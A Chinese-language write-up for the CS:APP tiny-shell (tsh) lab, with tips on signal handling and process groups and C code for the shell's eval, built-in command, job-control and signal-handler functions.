  trace02.txt
- waitpid，kill，fork，execve，setpgid 和 sigprocmask 函数将非常方便。 waitpid的WUNTRACED和WNOHANG选项也将很有用。
- 实现信号处理程序时，请确保在kill函数的参数中使用" -pid"而不是"" pid"将SIGINT和SIGTSTP信号发送到整个前台进程组。sdriver.pl程序会测试此错误。
- 比较tricky的是确定waitfg和sigchld_handler函数之间的工作分配。 建议采用以下方法：
  - 在waitfg中在sleep函数周围使用死循环
  - 在sigchld_handler，只调用一个waitpid
- 在eval中，父进程必须在派生子进程之前使用 sigprocmask 阻止 SIGCHLD 信号，然后取消阻止这些信号，通过调用 addjob 将进程添加到作业列表之后，再次使用sigprocmask。 由于子进程继承了父进程的阻止向量，子进程必须确保在执行新程序之前先解除对SIGCHLD信号的阻止。父进程需要以这种方式阻塞 SIGCHLD 信号，以避免在父进程调用addjob之前由 sigchld 处理程序回收子进程（从而将其从作业列表中删除）的竞争状态。
- 诸如more，less，vi和emacs之类的程序会对终端设置产生影响。 tsh中不要运行这些程序。 坚持使用基于简单文本的程序，例如`/bin/ls`，`/bin/ps`和`/bin/echo`。
- 从标准Unix shell运行shell时，shell在前台进程组中运行。如果tsh随后创建了一个子进程，则默认情况下，该子进程也将成为前台进程组的成员。 由于输入ctrl-c会将SIGINT发送到前台组中的每个进程，因此输入ctrl-c会将SIGINT发送到tsh以及tsh创建的每个进程，这显然是不正确的。解决方法是：在派生之后、执行之前，子进程应调用setpgid(0,0)，这会将子进程放入一个新的进程组中，该组的组ID与该子进程的PID相同。 这样可以确保在前台进程组中只有一个进程，即Shell。 当您键入ctrl-c时，shell程序应捕获结果SIGINT，然后将其转发到适当的前台作业（或更准确地说，是包含前台作业的进程组）。

### 具体实现

```C
/* 
 * eval - Evaluate the command line that the user has just typed in
 * 
 * 如果用户已请求内置命令（退出，作业，bg或fg），则立即执行该命令。 
 * 否则，请派生一个子进程并在该子进程的上下文中运行该作业。 
 * 如果作业在前台运行，请等待其终止然后返回。 
 * 注意：每个子进程必须具有唯一的进程组ID，以便当我们在键盘上键入ctrl-c（ctrl-z）时，
 * 我们的后台子进程不会从内核接收SIGINT（SIGTSTP）。
 * 
*/
void eval(char *cmdline) 
{
    char* argv[MAXARGS];
    char buf[MAXLINE];
    int state = UNDEF;
    sigset_t set;
    pid_t pid;
    strcpy(buf,cmdline);
    if(parseline(buf,argv)==1) state=BG;
    else state = FG;
    if(argv[0]==NULL) return ;
    //如果不是内置命令
    if(!builtin_cmd(argv))
    {
        if(sigemptyset(&set)<0)
            unix_error("sigemptyset error");
        if(sigaddset(&set,SIGINT)<0||sigaddset(&set,SIGTSTP)<0||sigaddset(&set,SIGCHLD)<0)
            unix_error("sigaddset error");
        if(sigprocmask(SIG_BLOCK,&set,NULL)<0)    
            unix_error("sigprocmask error");
        if((pid=fork())<0)
            unix_error("fork error");
        else if(pid==0)
        {
            if(sigprocmask(SIG_UNBLOCK,&set,NULL)<0)
                unix_error("sigprocmask error");
            if(setpgid(0,0)<0)
                unix_error("setpgid error");
            if(execve(argv[0],argv,environ)<0)
            {
                printf("%s: command not found\n",argv[0]);
                exit(0);
            }
        }
        addjob(jobs,pid,state,buf);
        if(sigprocmask(SIG_UNBLOCK,&set,NULL)<0)
            unix_error("sigprocmask error");
        if(state == FG)
            waitfg(pid);
        else printf("[%d] (%d) %s",pid2jid(pid),pid, cmdline);
    }
    return;
}
```

```C
/* 
 * builtin_cmd - If the user has typed a built-in command then execute
 *    it immediately.  
 * 识别并执行内置命令
 */
int builtin_cmd(char **argv) 
{
    if(!strcmp(argv[0],"quit")) exit(0);
    else if(!strcmp(argv[0],"bg")||!strcmp(argv[0],"fg"))  do_bgfg(argv);
    else if(!strcmp(argv[0],"jobs")) listjobs(jobs);
    else return 0;  /* not a builtin command */
    return 1;    
}
```

```C
/* 
 * do_bgfg - Execute the builtin bg and fg commands
 * 实现bg和fg的内置命令
 */
void do_bgfg(char **argv) 
{
    int parsed;
    struct job_t* job;
    if(!argv[1]){
        printf("%s command requires PID or %%jobid argument\n",argv[0]);
        return ;
    }
    if(argv[1][0] == '%'){
        if((parsed = strtol(&argv[1][1],NULL,10))<=0){
            printf("%s: argument must be a PID or %%jobid\n",argv[0]);
            return ;
        }
        if((job=getjobjid(jobs,parsed))==NULL)
        {
            printf("%%%d:No such job\n",parsed);
            return ;
        }
    }
    else {
        if((parsed = strtol(argv[1],NULL,10))<=0){
            printf("%s: argument must be a PID or %%jobid\n",argv[0]);
            return ;
        }
        if((job=getjobpid(jobs,parsed))== NULL){
            printf("(%d): No such process\n",parsed);
            return ;
        }
    }
    if(!strcmp(argv[0],"bg")){
        job->state = BG;
        if(kill(-job->pid,SIGCONT)<0)
            unix_error("kill error");
        printf("[%d] (%d) %s",job->jid,job->pid,job->cmdline);
    }
    else if(!strcmp(argv[0],"fg")){
        job->state=FG;
        if(kill(-job->pid,SIGCONT)<0)
            unix_error("kill error");
        waitfg(job->pid);
    }
    else {
        puts("do_bgfg: Internal error");
        exit(0);
    }
    return;
}
```

```C
/* 
 * waitfg - Block until process pid is no longer the foreground process
 */
void waitfg(pid_t pid)
{
    struct job_t* job= getjobpid(jobs,pid);
    if(!job) return ;

    while(job->state==FG) sleep(1);
    if(verbose) printf("waitfg: Process (%d) no longer the fg process\n",pid);   
    return;
}
```

```C
/* 
 * sigchld_handler
 * 每当子作业终止（成为僵尸）或由于接收到SIGSTOP或SIGTSTP信号而停止时，
 * 内核都会将SIGCHLD发送到shell。 
 * 处理程序会回收所有可用的僵尸子进程，但不等待其他任何正在运行的子进程终止。
 * 
*/ 
void sigchld_handler(int sig) 
{
    int status , jid;
    pid_t pid;
    struct job_t* job;
    if(verbose) puts("sigchld_handler: entering");

    while((pid=waitpid(-1,&status, WNOHANG | WUNTRACED))>0){
        if((job=getjobpid(jobs,pid))==NULL)
        {
            printf("Lost track of (%d)\n",pid);
            return ;
        }
        jid=job->jid;
        if(WIFSTOPPED(status)){
            printf("Job [%d] (%d) stopped by signal %d\n",jid,job->pid,WSTOPSIG(status));
            job->state=ST;
        }
        else if(WIFEXITED(status)){
            if(deletejob(jobs,pid)){
                if(verbose){
                    printf("sigchld_handler: Job [%d] (%d) deleted\n",jid,pid);
                    printf("sigchld_handler: Job [%d] (%d) terminates OK (status %d)\n",jid,pid,WEXITSTATUS(status));
                }
            }
        }
        else{
            if(deletejob(jobs,pid)){
                if(verbose) printf("sigchld_handler: Job [%d] (%d) deleted\n",jid,pid);
            }
            printf("Job [%d] (%d) terminated by signal %d\n",jid,pid,WTERMSIG(status));
        }
    }
   if(verbose) puts("sigchld_handler: exiting");
    return;
}
```

```C
/* 
 * sigint_handler - The kernel sends a SIGINT to the shell whenver the
 *    user types ctrl-c at the keyboard.  Catch it and send it along
 *    to the foreground job.  
 */
void sigint_handler(int sig) 
{
    if(verbose) puts("sigint_hanler:entering");
    pid_t pid=fgpid(jobs);
    if(pid){
        if(kill(-pid,SIGINT)<0) unix_error("kill (sigint) error");
        if (verbose) printf("sigint_hadler: JOb (%d) killed\n",pid);
    }
    if(verbose) puts("sigint_handler: exiting");
    return;
}
```

```C
/*
 * sigtstp_handler - The kernel sends a SIGTSTP to the shell whenever
 *     the user types ctrl-z at the keyboard. Catch it and suspend the
 *     foreground job by sending it a SIGTSTP.  
 */
void sigtstp_handler(int sig) 
{
    if(verbose) printf("sigstp_handler: entering");
    pid_t pid = fgpid(jobs);
    struct job_t* job=getjobpid(jobs,pid);
    if(pid) {
        if(kill(-pid,SIGTSTP)<0) unix_error("kill (tstp) error");
        if(verbose) printf("sigstp_handler: JOb [%d] (%d) stopped\n",job->jid,pid);
    }
    if(verbose) printf("sigstp_handler: Job [%d] (%d) stopped\n",job->jid,pid);
    return ;
}
```